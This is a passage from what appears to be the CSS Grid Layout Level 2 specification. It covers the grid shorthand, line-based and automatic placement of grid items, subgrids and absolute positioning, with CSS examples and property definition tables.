>   <label for="address2">Address 2:</label>
>   <input type="text" id="address2" name="address2">
>   <label for="city">City:</label>
>   <input type="text" id="city" name="city">
>   <label for="state">State:</label>
>   <select type="text" id="state" name="state">
>     <option value="WA">Washington</option>
>   </select>
>   <label for="zip">Zip:</label>
>   <input type="text" id="zip" name="zip">
>
>   <div id="department-block">
>     <label for="department">Department:</label>
>     <select id="department" name="department" multiple>
>       <option value="finance">Finance</option>
>       <option value="humanresources">Human Resources</option>
>       <option value="marketing">Marketing</option>
>     </select>
>   </div>
>
>   <div id="buttons">
>     <button id="cancel">Cancel</button>
>     <button id="back">Back</button>
>     <button id="next">Next</button>
>   </div>
> </form>
> ```

#### 7.8.  Grid Definition Shorthand: the `grid` property {#css-grid-2:grid-shorthand}

| Field | Value |
| --- | --- |
| Name: | **grid** |
| [Value:](#css-values-4:value-defs) | `<'grid-template'>` \| `<'grid-template-rows'>` / [ auto-flow && dense? ] `<'grid-auto-columns'>`? \| [ auto-flow && dense? ] `<'grid-auto-rows'>`? / `<'grid-template-columns'>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `grid` property is a shorthand that sets all of the explicit grid properties (`grid-template-rows`, `grid-template-columns`, and `grid-template-areas`), and all the implicit grid properties (`grid-auto-rows`, `grid-auto-columns`, and `grid-auto-flow`), in a single declaration. (It does not reset the gutter properties.)

Its syntax matches `grid-template`, plus an additional syntax form for defining auto-flow grids:

**`<'grid-template'>`**

: Sets the `grid-template` longhands as as for `grid-template`, and the `grid-auto-*` longhands to their initial values.

****`<'grid-template-rows'>` / [ auto-flow && dense? ] `<'grid-auto-columns'>`?** **[ auto-flow && dense? ] `<'grid-auto-rows'>`? / `<'grid-template-columns'>`****

: Sets up auto-flow, by setting the tracks in one axis explicitly (setting either `grid-template-rows` or `grid-template-columns` as specified, and setting the other to `none`), and specifying how to auto-repeat the tracks in the other axis (setting either `grid-auto-rows` or `grid-auto-columns` as specified, and setting the other to `auto`). `grid-auto-flow` is also set to either `row` or `column` accordingly, with `dense` if it’s specified.

  All other `grid` sub-properties are reset to their initial values.

> **Note:** Note that you can only specify the explicit *or* the implicit grid properties in a single `grid` declaration. The sub-properties you don’t specify are set to their initial value, as normal for shorthands.

> **Example:** In addition to accepting the `grid-template` shorthand syntax for setting up the explicit grid, the `grid` shorthand can also easily set up parameters for an auto-formatted grid. For example, `grid: auto-flow 1fr / 100px;` is equivalent to
>
> ```
> grid-template: none / 100px;
> grid-auto-flow: row;
> grid-auto-rows: 1fr;
> grid-auto-columns: auto;
> ```
>
> Similarly, `grid: none / auto-flow 1fr` is equivalent to
>
> ```
> grid-template: none;
> grid-auto-flow: column;
> grid-auto-rows: auto;
> grid-auto-columns: 1fr;
> ```

When serializing, if all the `grid-auto-*` longhands have their initial values, the `grid-template` syntax is used.

### 8.  Placing Grid Items {#css-grid-2:placement}

Every grid item is associated with a grid area, a rectangular set of adjacent grid cells that the grid item occupies. This grid area defines the containing block for the grid item within which the self-alignment properties (`justify-self` and `align-self`) determine their actual position. The cells that a grid item occupies also influence the sizing of the grid’s rows and columns, defined in § 12 Grid Layout Algorithm.

The location of a grid item’s grid area within the grid is defined by its **placement**, which consists of a grid position and a grid span:

****grid position****

: The grid item’s location in the grid in each axis. A grid position can be either **definite** (explicitly specified) or **automatic** (determined by auto-placement).

****grid span****

: How many grid tracks the grid item occupies in each axis. The grid span in an axis can be implicit, explicit, or automatic:

  - If both the `*-start` and `*-end` values of its grid-placement properties specify a line, its grid span is **implicit**.
  - If it has an explicit `span` value, its grid span is **explicit**.
  - Otherwise, its grid span is **automatic**: if it is subgridded in that axis, its grid span is [determined](#css-grid-2:subgrid-span) from its `<line-name-list>`; otherwise its grid span is 1.

The **grid-placement properties**—​the longhands `grid-row-start`, `grid-row-end`, `grid-column-start`, `grid-column-end`, and their shorthands `grid-row`, `grid-column`, and `grid-area`—​allow the author to specify a grid item’s placement by providing any (or none) of the following six pieces of information:

|  | Row | Column |
| --- | --- | --- |
| *Start* | row-start line | column-start line |
| *End* | row-end line | column-end line |
| *Span* | row span | column span |

A definite value for any two of *Start*, *End*, and *Span* in a given dimension implies a definite value for the third.

#### 8.1.  Common Patterns for Grid Placement {#css-grid-2:common-uses}

*This section is informative.*

The grid-placement property longhands are organized into three shorthands:

| `grid-area` |  |  |  |
| --- | --- | --- | --- |
| `grid-column` | `grid-row` |  |  |
| `grid-column-start` | `grid-column-end` | `grid-row-start` | `grid-row-end` |

##### 8.1.1.  Named Areas {#css-grid-2:common-uses-named-areas}

An item can be placed into a named grid area (such as those produced by the template in `grid-template-areas`) by specifying the area’s name in `grid-area`:

> **Example:** ```
> article {
>   grid-area: main;
>   /* Places item into the named area "main". */
> }
> ```

An item can also be *partially* aligned with a named grid area, with other edges aligned to some other line:

> **Example:** ```
> .one {
>   grid-row-start: main;
>   /* Align the row-start edge to the start edge of the "main" named area. */
> }
> ```

##### 8.1.2.  Numeric Indexes and Spans {#css-grid-2:common-uses-numeric}

Grid items can be positioned and sized by number, which is particularly helpful for script-driven layouts:

> **Example:** ```
> .two {
>   grid-row: 2;    /* Place item in the second row. */
>   grid-column: 3; /* Place item in the third column. */
>   /* Equivalent to grid-area: 2 / 3; */
> }
> ```

By default, a grid item has a span of 1. Different spans can be given explicitly:

> **Example:** ```
> .three {
>   grid-row: 2 / span 5;
>   /* Starts in the 2nd row,
>      spans 5 rows down (ending in the 7th row). */
> }
>
> .four {
>   grid-row: span 5 / 7;
>   /* Ends in the 7th row,
>      spans 5 rows up (starting in the 2nd row). */
> }
> ```

> **Note:** Note that grid indexes are writing mode relative. For example, in a right-to-left language like Arabic, the first column is the rightmost column.

##### 8.1.3.  Named Lines and Spans {#css-grid-2:common-uses-named-lines}

Instead of counting lines by number, lines can be referenced by their line name:

> **Example:** ```
> .five {
>   grid-column: first / middle;
>   /* Span from line "first" to line "middle". */
> }
> ```

> **Note:** Note that if a named grid area has the same name as a line name, the placement algorithm will prefer to use named grid area’s lines instead.

If there are multiple lines of the same name, they effectively establish a named set of grid lines, which can be exclusively indexed by filtering the placement by name:

> **Example:** ```
> .six {
>   grid-row: text 5 / text 7;
>   /* Span between the 5th and 7th lines named "text". */
>   grid-row: text 5 / span text 2;
>   /* Same as above - start at the 5th line named "text",
>      then span across two more "text" lines, to the 7th. */
> }
> ```

##### 8.1.4.  Auto Placement {#css-grid-2:common-uses-auto-placement}

A grid item can be automatically placed into the next available empty grid cell, growing the grid if there’s no space left.

> **Example:** ```
> .eight {
>   grid-area: auto; /* Initial value */
> }
> ```

This can be used, for example, to list a number of sale items on a catalog site in a grid pattern.

Auto-placement can be combined with an explicit span, if the item should take up more than one cell:

> **Example:** ```
> .nine {
>   grid-area: span 2 / span 3;
>   /* Auto-placed item, covering two rows and three columns. */
> }
> ```

Whether the auto-placement algorithm searches across and adds rows, or searches across and adds columns, is controlled by the `grid-auto-flow` property.

> **Note:** By default, the auto-placement algorithm looks linearly through the grid without backtracking; if it has to skip some empty spaces to place a larger item, it will not return to fill those spaces. To change this behavior, specify the `dense` keyword in `grid-auto-flow`.

#### 8.2.  Grid Item Placement vs. Source Order {#css-grid-2:placement-a11y}

> “With great power comes great responsibility.”

The abilities of the grid-placement properties allow content to be freely arranged and reordered within the grid, such that the visual presentation can be largely disjoint from the underlying document source order. These abilities allow the author great freedom in tailoring the rendering to different devices and modes of presentation e.g. using media queries. However **they are not a substitute for correct source ordering**.

Correct source order is important for speech, for sequential navigation (such as keyboard navigation), and non-CSS UAs such as search engines, tactile browsers, etc. Grid placement *only* affects the visual presentation! This allows authors to optimize the document source for non-CSS/non-visual interaction modes, and use grid placement techniques to further manipulate the visual presentation so as to leave that source order intact.

#### 8.3.  Line-based Placement: the `grid-row-start`, `grid-column-start`, `grid-row-end`, and `grid-column-end` properties {#css-grid-2:line-placement}

| Field | Value |
| --- | --- |
| Name: | **grid-row-start**, **grid-column-start**, **grid-row-end**, **grid-column-end** |
| [Value:](#css-values-4:value-defs) | `<grid-line>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | grid items and absolutely-positioned boxes whose containing block is a grid container |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword, identifier, and/or integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

```css
<grid-line> =
  auto |
  <custom-ident> |
  [ [ <integer [-∞,-1]> | <integer [1,∞]> ] && <custom-ident>? ] |
  [ span && [ <integer [1,∞]> || <custom-ident> ] ]
```

The `grid-row-start`, `grid-column-start`, `grid-row-end`, and `grid-column-end` properties determine a grid item’s size and location within the grid by contributing a line, a span, or nothing (automatic) to its grid placement, thereby specifying the inline-start, block-start, inline-end, and block-end edges of its grid area.

Values have the following meanings:

****`<custom-ident>`****

: First attempt to match the grid area’s edge to a named grid area: if there is a grid line whose line name is `<custom-ident>-start` (for `grid-*-start`) / `<custom-ident>-end` (for `grid-*-end`), contributes the first such line to the grid item’s placement.

  > **Note:** Named grid areas automatically generate implicitly-assigned line names of this form, so specifying `grid-row-start: foo` will choose the start edge of that named grid area (unless another line named `foo-start` was explicitly specified before it).

  Otherwise, treat this as if the integer `1` had been specified along with the `<custom-ident>`.

****[ `<integer [-∞,-1]>` | <integer [1,∞]> ] && `<custom-ident>`?****

: Contributes the *N*th grid line to the grid item’s placement. If a negative integer is given, it instead counts in reverse, starting from the end edge of the explicit grid.

  If a name is given as a `<custom-ident>`, only lines with that name are counted. If not enough lines with that name exist, all implicit grid lines are assumed to have that name for the purpose of finding this position.

  An `<integer>` value of zero makes the declaration invalid.

****span && [ `<integer [1,∞]>` || `<custom-ident>` ]****

: Contributes a grid span to the grid item’s placement such that the corresponding edge of the grid item’s grid area is *N* lines from its opposite edge in the corresponding direction. For example, `grid-column-end: span 2` indicates the second grid line in the endward direction from the `grid-column-start` line.

  If a name is given as a `<custom-ident>`, only lines with that name are counted. If not enough lines with that name exist, all implicit grid lines on the side of the explicit grid corresponding to the search direction are assumed to have that name for the purpose of counting this span.

  > **Example:** For example, given the following declarations:
  >
  > ```css
  > .grid { grid-template-columns: 100px; }
  > .griditem { grid-column: span foo / 4; }
  > ```
  >
  > The grid container has an explicit grid with two grid lines, numbered 1 and 2. The grid item’s column-end edge is specified to be at line 4, so two lines are generated in the endward side of the implicit grid.
  >
  > Its column-start edge must be the first "foo" line it can find startward of that. There is no "foo" line in the grid, though, so the only possibility is a line in the implicit grid. Line 3 is not a candidate, because it’s on the endward side of the explicit grid, while the `grid-column-start` span forces it to search startward. So, the only option is for the implicit grid to generate a line on the startward side of the explicit grid.
  >
  > 
  >
  > An illustration of the result.

  If the `<integer>` is omitted, it defaults to `1`. Negative integers or zero are invalid.

****auto****

: The property contributes nothing to the grid item’s placement, indicating auto-placement or a default span of one. (See [§ 8 Placing Grid Items](#css-grid-2:placement), above.)

In all the above productions, the `<custom-ident>` additionally excludes the keywords `span` and `auto`.

> **Example:** Given a single-row, 8-column grid and the following 9 named lines:
>
> ```
> 1  2  3  4  5  6  7  8  9
> +--+--+--+--+--+--+--+--+
> |  |  |  |  |  |  |  |  |
> A  B  C  A  B  C  A  B  C
> |  |  |  |  |  |  |  |  |
> +--+--+--+--+--+--+--+--+
> ```
>
> The following declarations place the grid item between the lines indicated by index:
>
> ```
> grid-column-start: 4; grid-column-end: auto;
> /* Line 4 to line 5 */
>
> grid-column-start: auto; grid-column-end: 6;
> /* Line 5 to line 6 */
>
> grid-column-start: C; grid-column-end: C -1;
> /* Line 3 to line 9 */
>
> grid-column-start: C; grid-column-end: span C;
> /* Line 3 to line 6 */
>
> grid-column-start: span C; grid-column-end: C -1;
> /* Line 6 to line 9 */
>
> grid-column-start: span C; grid-column-end: span C;
> /* Error: The end span is ignored, and an auto-placed
>    item can't span to a named line.
>    Equivalent to ''grid-column: span 1;''. */
>
> grid-column-start: 5; grid-column-end: C -1;
> /* Line 5 to line 9 */
>
> grid-column-start: 5; grid-column-end: span C;
> /* Line 5 to line 6 */
>
> grid-column-start: 8; grid-column-end: 8;
> /* Error: line 8 to line 9 */
>
> grid-column-start: B 2; grid-column-end: span 1;
> /* Line 5 to line 6 */
> ```

##### 8.3.1.  Grid Placement Conflict Handling {#css-grid-2:grid-placement-errors}

If the placement for a grid item contains two lines, and the start line is further end-ward than the end line, swap the two lines. If the start line is *equal* to the end line, remove the end line.

If the placement contains two spans, remove the one contributed by the end grid-placement property.

If the placement contains only a span for a named line, replace it with a span of 1.

#### 8.4.  Placement Shorthands: the `grid-column`, `grid-row`, and `grid-area` properties {#css-grid-2:placement-shorthands}

| Field | Value |
| --- | --- |
| Name: | **grid-row**, **grid-column** |
| [Value:](#css-values-4:value-defs) | `<grid-line>` [ / <grid-line> ]? |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | grid items and absolutely-positioned boxes whose containing block is a grid container |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `grid-row` and `grid-column` properties are shorthands for `grid-row-start`/`grid-row-end` and `grid-column-start`/`grid-column-end`, respectively.

If two `<grid-line>` values are specified, the `grid-row-start`/`grid-column-start` longhand is set to the value before the slash, and the `grid-row-end`/`grid-column-end` longhand is set to the value after the slash.

When the second value is omitted, if the first value is a `<custom-ident>`, the `grid-row-end`/`grid-column-end` longhand is also set to that <custom-ident>; otherwise, it is set to `auto`.

| Field | Value |
| --- | --- |
| Name: | **grid-area** |
| [Value:](#css-values-4:value-defs) | `<grid-line>` [ / <grid-line> ]{0,3} |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | grid items and absolutely-positioned boxes whose containing block is a grid container |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `grid-area` property is a shorthand for `grid-row-start`, `grid-column-start`, `grid-row-end` and `grid-column-end`.

If four `<grid-line>` values are specified, `grid-row-start` is set to the first value, `grid-column-start` is set to the second value, `grid-row-end` is set to the third value, and `grid-column-end` is set to the fourth value.

When `grid-column-end` is omitted, if `grid-column-start` is a `<custom-ident>`, `grid-column-end` is set to that <custom-ident>; otherwise, it is set to `auto`.

When `grid-row-end` is omitted, if `grid-row-start` is a `<custom-ident>`, `grid-row-end` is set to that <custom-ident>; otherwise, it is set to `auto`.

When `grid-column-start` is omitted, if `grid-row-start` is a `<custom-ident>`, all four longhands are set to that value. Otherwise, it is set to `auto`.

> **Note:** The resolution order for this shorthand is row-start/column-start/row-end/column-end, which goes CCW for LTR pages, the opposite direction of the related 4-edge properties using physical directions, like `margin`.

#### 8.5.  Grid Item Placement Algorithm {#css-grid-2:auto-placement-algo}

The following **grid item placement algorithm** resolves automatic positions of grid items into definite positions, ensuring that every grid item has a well-defined grid area to lay out into. (Grid spans need no special resolution; if they’re not explicitly specified, they default to 1.)

> **Note:** This algorithm can result in the creation of new rows or columns in the implicit grid, if there is no room in the explicit grid to place an auto-positioned grid item.

Every grid cell (in both the explicit and implicit grids) can be **occupied** or **unoccupied**. A cell is occupied if it’s covered by the grid area of a grid item with a definite grid position; otherwise, the cell is unoccupied. A cell’s occupied/unoccupied status can change during this algorithm.

To aid in clarity, this algorithm is written with the assumption that `grid-auto-flow` has `row` specified. If it is instead set to `column`, swap all mentions of rows and columns, inline and block, etc. in this algorithm.

> **Note:** The auto-placement algorithm works with the grid items in order-modified document order, not their original document order.

1. **Generate anonymous grid items** as described in [§ 6 Grid Items](#css-grid-2:grid-items). (Anonymous grid items are always auto-placed, since their boxes can’t have any grid-placement properties specified.)
2. **Position anything that’s not auto-positioned.**
3. **Process the items locked to a given row.**

   For each grid item with a definite row position (that is, the `grid-row-start` and `grid-row-end` properties define a definite grid position), in order-modified document order:

   **“sparse” packing (default behavior)**

   : Set the column-start line of its placement to the earliest (smallest positive index) line index that ensures this item’s grid area will not overlap any occupied grid cells and that is past any grid items previously placed in this row by this step.

   **“dense” packing (`dense` specified)**

   : Set the column-start line of its placement to the earliest (smallest positive index) line index that ensures this item’s grid area will not overlap any occupied grid cells.
4. **Determine the columns in the implicit grid.**

   Create columns in the implicit grid:

  1. Start with the columns from the explicit grid.
  2. Among all the items with a definite column position (explicitly positioned items, items positioned in the previous step, and items not yet positioned but with a definite column) add columns to the beginning and end of the implicit grid as necessary to accommodate those items.
  3. If the largest column span among all the items *without* a definite column position is larger than the width of the implicit grid, add columns to the end of the implicit grid to accommodate that column span.

   > **Example:** For example, in the following style fragment:
   >
   > ```
   > #grid {
   >   display: grid;
   >   grid-template-columns: repeat(5, 100px);
   >   grid-auto-flow: row;
   > }
   > #grid-item {
   >   grid-column: 4 / span 3;
   > }
   > ```
   >
   > The number of columns needed is 6. The explicit grid provides 5 columns (from `grid-template-columns`) with lines number 1 through 6, but `#grid-item`’s column position means it ends on line 7, which requires an additional column added to the end of the implicit grid.
5. **Position the remaining grid items.**

   The **auto-placement cursor** defines the current “insertion point” in the grid, specified as a pair of row and column grid lines. Initially the auto-placement cursor is set to the start-most row and column lines in the implicit grid.

   The `grid-auto-flow` value in use determines how to position the items:

   **“sparse” packing (default behavior)**

   : For each grid item that hasn’t been positioned by the previous steps, in order-modified document order:

  **If the item has a definite column position:**

  : 1. Set the column position of the cursor to the grid item’s column-start line. If this is less than the previous column position of the cursor, increment the row position by 1.
    2. Increment the cursor’s row position until a value is found where the grid item does not overlap any occupied grid cells (creating new rows in the implicit grid as necessary).
    3. Set the item’s row-start line to the cursor’s row position, and set the item’s row-end line according to its span from that position.

  **If the item has an automatic grid position in both axes:**

  : 1. Increment the column position of the auto-placement cursor until either this item’s grid area does not overlap any occupied grid cells, or the cursor’s column position, plus the item’s column span, overflow the number of columns in the implicit grid, as determined earlier in this algorithm.
    2. If a non-overlapping position was found in the previous step, set the item’s row-start and column-start lines to the cursor’s position. Otherwise, increment the auto-placement cursor’s row position (creating new rows in the implicit grid as necessary), set its column position to the start-most column line in the implicit grid, and return to the previous step.

   **“dense” packing (`dense` specified)**

   : For each grid item that hasn’t been positioned by the previous steps, in order-modified document order:

  **If the item has a definite column position:**

  : 1. Set the row position of the cursor to the start-most row line in the implicit grid. Set the column position of the cursor to the grid item’s column-start line.
    2. Increment the auto-placement cursor’s row position until a value is found where the grid item does not overlap any occupied grid cells (creating new rows in the implicit grid as necessary).
    3. Set the item’s row-start line index to the cursor’s row position. (Implicitly setting the item’s row-end line according to its span, as well.)

  **If the item has an automatic grid position in both axes:**

  : 1. Set the cursor’s row and column positions to start-most row and column lines in the implicit grid.
    2. Increment the column position of the auto-placement cursor until either this item’s grid area does not overlap any occupied grid cells, or the cursor’s column position, plus the item’s column span, overflow the number of columns in the implicit grid, as determined earlier in this algorithm.
    3. If a non-overlapping position was found in the previous step, set the item’s row-start and column-start lines to the cursor’s position. Otherwise, increment the auto-placement cursor’s row position (creating new rows in the implicit grid as necessary), reset its column position to the start-most column line in the implicit grid, and return to the previous step.

### 9.  Subgrids {#css-grid-2:subgrids}

A subgrid behaves just like a normal grid container except that:

- Placing the subgrid creates a correspondence between its subgridded tracks and those that it spans in its parent grid. The grid lines thus shared between the subgrid and its parent form the subgrid’s explicit grid, and its track sizes are governed by the parent grid.
- The number of explicit tracks in the subgrid in a subgridded dimension always corresponds to the number of grid tracks that it spans in its parent grid:

  - If the subgrid’s grid span in the subgridded dimension is explicit or implicit, then the number of explicit tracks in each subgridded dimension is taken from its used grid span in that dimension (regardless of its `grid-template-*` properties).
  - If it has an automatic grid span, then its used grid span is taken from the number of explicit tracks specified for that axis by its `grid-template-*` properties, floored at one.

  > **Note:** The explicit grid determined here can be further truncated if the placement of the subgrid is clamped by its parent grid. See [the "no implicit tracks" bullet point](#css-grid-2:subgrid-implicit).

  If the `grid-template-*` properties specify a `<line-name-list>` in a subgridded axis, the used value is truncated to match the used number of explicit tracks.
- The grid-placement properties of the subgrid’s grid items and the line numbers they use are scoped to the lines covered by the subgrid, exactly consistent with the lines outside the subgrid being excluded from its explicit grid. E.g. numeric indices count starting from the first line of the subgrid rather than the first line of the parent grid.

  Line numbering and placement rules obey the subgrid’s own writing mode, just as they would for a nested independent grid.
- Since subgrids can be placed before their contents are placed, the subgridded lines automatically receive the explicitly-assigned line names specified on the corresponding lines of the parent grid.

  These names are in *addition* to any line names specified locally on the subgrid.
- When a subgrid overlaps a named grid area in its parent that was created by a `grid-template-areas` property declaration, implicitly-assigned line names are assigned to represent the parent’s named grid area within the subgrid.

  > **Note:** If a named grid area only partially overlaps the subgrid, its implicitly-assigned line names will be assigned to the first and/or last line of the subgrid such that a named grid area exists representing that partially overlapped area of the subgrid; thus the line name assignments of the subgrid might not always correspond exactly to the line name assignments of the parent grid.

  These names are also in *addition* to any line names specified locally on the subgrid.

  > **Example:** In the following example, the 4-column grand-parent grid has both explicit line names and implicit ones generated by `grid-template-areas`:
  >
  > ```
  > <style type="css">
  >   .outer {
  >     display: grid;
  >     grid-template-columns:
  >       [outer-edge] 20px [main-start] 1fr [center] 1fr max-content [main-end];
  >     grid-template-areas:
  >       "gutter info info photos";
  >   }
  >   .middle {
  >     grid-column: main-start / main-end;
  >     display: grid;
  >     grid: subgrid / subgrid;
  >   }
  >   .inner {
  >     grid-column: center / -1;
  >     display: grid;
  >     grid: subgrid / subgrid;
  >   }
  > </style>
  >
  > <div class="outer">
  >   <div class="middle">
  >     <div class="inner">&hellip;</div>
  >   </div>
  > </div>
  > ```
  >
  > After all types of name resolution, the names for each grid will be:
  >
  > ```
  > .outer = [outer-edge gutter-start] [gutter-end info-start main-start] [center] [info-end photos-start] [main-end photos-end]
  > .middle = [info-start main-start] [center] [info-end photos-start] [main-end photos-end]
  > .inner = [center info-start] [info-end photos-start] [main-end photos-end]
  > ```
  >
  > Notice that all the explicitly-assigned line names inherit straight through to .inner, but the implicitly-assigned line names are calculated based on each subgrid’s overlap of the original named grid area.
- The subgrid does not have any implicit grid tracks in the subgridded dimension(s). Hypothetical implicit grid lines are used to resolve placement as usual when the explicit grid does not have enough lines; however each grid item’s grid area is clamped to the subgrid’s explicit grid (using the same procedure as for clamping placement in an overly-large grid).

  > **Example:** For example, if a `span 1` subgrid has a grid item with `grid-column: 2 / span 3;`, then that item is instead forced into (and limited to) the first (only) track in the subgrid.

  > **Note:** This means that a subgrid might have fewer tracks than it expected, if its parent is also a subgrid and therefore has a fixed number of tracks. (A subgrid might likewise have fewer tracks than expected because its parent is hitting the [UA limit on grid tracks](#css-grid-2:overlarge-grids).)
- The subgrid itself lays out as an ordinary grid item in its parent grid, but acts as if it was completely empty for track sizing purposes in the subgridded dimension.
- The subgrid’s own grid items participate in the sizing of its parent grid in the subgridded dimension(s) and are aligned to it in those dimensions.

  In this process, the sum of the subgrid’s margin, padding, scrollbar gutter, and border at each edge are applied as an extra layer of (potentially negative) margin to the items at those edges. This extra layer of “margin” accumulates through multiple levels of subgrids.

  > **Example:** For example, if we have a 3×3 grid with the following tracks:
  >
  > ```
  > #parent-grid { grid-template-columns: 300px auto 300px; }
  > ```
  >
  > If a subgrid covers the last two tracks, its first two columns correspond to the parent grid’s last two columns, and any items positioned into those tracks participate in sizing the parent grid. Specifically, an item positioned in the first track of the subgrid influences the auto-sizing of the parent grid’s middle track.
  >
  > ```
  > #subgrid { grid-column: 2 / span 2; } /* cover parent's 2nd and 3rd tracks */
  > #subgrid > :first-child { grid-column: 1; } /* subgrid's 1st track, parent grid's 2nd track */
  > ```
  >
  > If the subgrid has margins/borders/padding, the size of those margins/borders/padding also influences sizing. For example, if the subgrid has 100px padding:
  >
  > ```
  > #subgrid { padding: 100px; }
  > ```
  >
  > Then a grid item in the subgrid’s first track acts as if it has an additional `100px` of top, left, and bottom margin, influencing the sizing of the parent grid’s tracks and the grid item’s own position.

  Meanwhile, half the size of the difference between the subgrid’s gutters (`row-gap`/column-gap) and its parent grid’s gutters is applied as an extra layer of (potentially negative) margin to the items not at those edges. This extra layer of “margin” also accumulates through multiple levels of subgrids. A value of `normal` indicates that the subgrid has the same size gutters as its parent grid, i.e. the applied difference is zero.

  > **Note:** The end result will be that the parent’s grid tracks will be sized as specified, and that the subgrid’s gutters will visually center-align with the parent grid’s gutters.

  > **Example:** For example, suppose we have a 300px-wide outer grid with 50px gaps and its columns specified as `100px 1fr`. A subgrid spanning both tracks would have…
  >
  > **… if its column-gap were normal (or `50px`):**
  >
  > : - A grid item in its left column sized and laid out (and contributing its size to the parent grid’s sizing calculations) without any special adjustment, thus stretching to 100px wide while remaining aligned to the subgrid’s left edge.
  >   - A grid item in its right column sized and laid out (and contributing its size to the parent grid’s sizing calculations) without any special adjustment, thus stretching to 150px wide, while remaining aligned to the subgrid’s right edge.
  >   - An effective visual gutter between the items of 50px, exactly matching its parent grid.
  >
  >   
  >
  > **… if its column-gap were `0`:**
  >
  > : - A grid item in its left column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a -25px right margin, thus stretching to 125px wide while remaining aligned to the subgrid’s left edge.
  >   - A grid item in its right column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a -25px left margin, thus stretching to 175px wide, while remaining aligned to the subgrid’s right edge.
  >   - An effective visual gutter between the items of zero, as specified by its column-gap.
  >
  >   
  >
  > **… if its column-gap were `25px`:**
  >
  > : - A grid item in its left column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a -12.5px right margin, thus stretching to 112.5px wide while remaining aligned to the subgrid’s left edge.
  >   - A grid item in its right column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a -12.5px left margin, thus stretching to 162.5px wide, while remaining aligned to the subgrid’s right edge.
  >   - An effective visual gutter between the items of 25px, as specified by its column-gap.
  >
  >   
  >
  > **… if its column-gap were `75px`:**
  >
  > : - A grid item in its left column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a 12.5px right margin, thus stretching to 87.5px wide while remaining aligned to the subgrid’s left edge.
  >   - A grid item in its right column sized and laid out (and contributing its size to the parent grid’s sizing calculations) as if it had a 12.5px left margin, thus stretching to 137.5px wide, while remaining aligned to the subgrid’s right edge.
  >   - An effective visual gutter between the items of 75px, as specified by its column-gap.
  >
  >   
- For each edge of a non-empty subgrid, to account for the subgrid’s margin/border/padding (and any scrollbar gutter) at that edge, a hypothetical item is contributed to the track sizing algorithm for each span size in the set of items spanning into the occupied track closest to that edge of the subgrid. The hypothetical item’s sizes are taken from the sizes of the largest such item of each span size, and are additionally inflated by the subgrid’s own margin/border/padding/gutter at that edge. Correspondingly, the hypothetical item’s span is taken from that same real item’s span, and inflated by the number of empty tracks between it and the relevant subgrid’s edge(s).

  > **Note:** This step can be shortcut if the tracks closest to the subgrid’s edges contain real items, which would have already [accounted for the subgrid’s margin/border/padding](#css-grid-2:subgrid-item-contribution) as described above.

  > **Example:** For example, in the following subgrid layout:
  >
  > ```
  > 5px auto auto 5px
  > .   aaaaaaaaa .
  > .   bbbb cccc .
  > ```
  >
  > Assuming subgrid items *a*, *b*, and *c* occupying their corresponding grid areas and a subgrid padding of 25px, two hypothetical grid items would be contributed to the track sizing algorithm for the purpose of handling the subgrid’s inline-start padding: one with the size of *b* plus 25px, spanning the first two columns; and one with the size of *a* plus 25px, spanning the first three columns.
- The subgrid is always stretched in its subgridded dimension(s): the `align-self`/`justify-self` properties on it are ignored, as are any specified width/height constraints.
- Layoutwise, the subgrid’s grid is always aligned with the corresponding section of the parent grid; the `align-content`/`justify-content` properties on it are also ignored in the subgridded dimension.
- The `overflow` property does apply to subgrids, so that overflowing contents of the subgrid can be scrolled into view. (Note: the act of scrolling does not affect layout.)
- Relative positioning applies to subgrids as normal, and shifts the box and its content together as usual. (Note: Relative positioning takes place after alignment, and does not affect track sizing.)

### 10.  Absolute Positioning {#css-grid-2:abspos}

#### 10.1.  With a Grid Container as Containing Block {#css-grid-2:abspos-items}

If an absolutely positioned element’s containing block is generated by a grid container, the containing block corresponds to the grid area determined by its grid-placement properties. The offset properties (`top`/`right`/`bottom`/`left`) then indicate offsets inwards from the corresponding edges of this containing block, as normal.

> **Note:** While absolutely-positioning an element to a grid container does allow it to align to that container’s grid lines, such elements do not take up space or otherwise participate in the layout of the grid.

> **Example:** ```
> .grid {
>   grid: 1fr 1fr 1fr 1fr / 10rem 10rem 10rem 10rem;
>   /* 4 equal-height rows filling the grid container,
>      4 columns of ''10rem'' each */
>   justify-content: center;
>   /* center the grid horizontally within the grid container */
>   position: relative;
>   /* Establish abspos containing block */
> }
>
> .abspos {
>   grid-row-start: 1;     /* 1st grid row line = top of grid container */
>   grid-row-end: span 2;  /* 3rd grid row line */
>   grid-column-start: 3;  /* 3rd grid col line */
>   grid-column-end: auto; /* right padding edge */
>   /* Containing block covers the top right quadrant of the grid container */
>
>   position: absolute;
>   top: 70px;
>   bottom: 40px;
>   left: 100px;
>   right: 30px;
> }
> ```
>
> 
>
